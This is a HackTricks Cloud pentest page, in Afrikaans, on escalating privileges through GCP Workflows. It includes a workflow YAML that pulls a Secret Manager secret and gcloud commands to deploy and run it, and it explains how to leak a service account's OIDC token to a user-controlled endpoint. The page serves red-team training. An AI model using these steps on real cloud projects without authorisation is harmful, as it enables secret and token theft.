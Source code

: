 # GCP - Workflows Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basiese Inligting:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soos ek weet, is dit nie moontlik om 'n shell te kry met toegang tot die metadata-eindpunt wat die SA-akkrediteer van die SA wat aan 'n Workflow aangeheg is, bevat nie. Dit is egter moontlik om die toestemmings van die SA te misbruik deur die aksies wat binne die Workflow uitgevoer moet word, by te voeg.

Dit is moontlik om die dokumentasie van die connectors te vind. Byvoorbeeld, dit is die [**bladsy van die Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In die sybalk is dit moontlik om verskeie ander connectors te vind.

En hier kan jy 'n voorbeeld van 'n connector vind wat 'n geheim druk:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Opdateer vanaf die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
As jy nie webtoegang het nie, is dit moontlik om 'n Workflow te aktiveer en die uitvoering daarvan te sien met: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Jy kan ook die uitvoer van vorige uitvoerings nagaan om sensitiewe inligting te soek
{% endhint %}

Let daarop dat selfs al kry jy 'n fout soos `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` omdat jy nie daardie toestemming het nie, is die werksvloei gegenereer.

### Lek OIDC-token (en OAuth?)

Volgens [**die dokumentasie**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) is dit moontlik om werksvloei-stappe te gebruik wat 'n HTTP-versoek sal stuur met die OAuth of OIDC-token. Maar, net soos in die geval van [Cloud Scheduler](gcp-cloudscheduler-privesc.md), moet die HTTP-versoek met die Oauth-token na die gasheer `.googleapis.com` wees.

{% hint style="danger" %}
Daarom is dit **moontlik om die OIDC-token te lek deur 'n HTTP-eindpunt aan te dui** wat deur die gebruiker beheer word, maar om die **OAuth**-token te lek, sal jy **'n omseiling** vir daardie beskerming benodig. Tog is jy steeds in staat om **enige GCP-api te kontak om aksies namens die SA uit te voer** deur middel van ofwel verbindings of HTTP-versoeke met die OAuth-token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Met hierdie toestemming in plaas van `workflows.workflows.create` is dit moontlik om 'n reeds bestaande workflow op te dateer en dieselfde aanvalle uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) of die [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

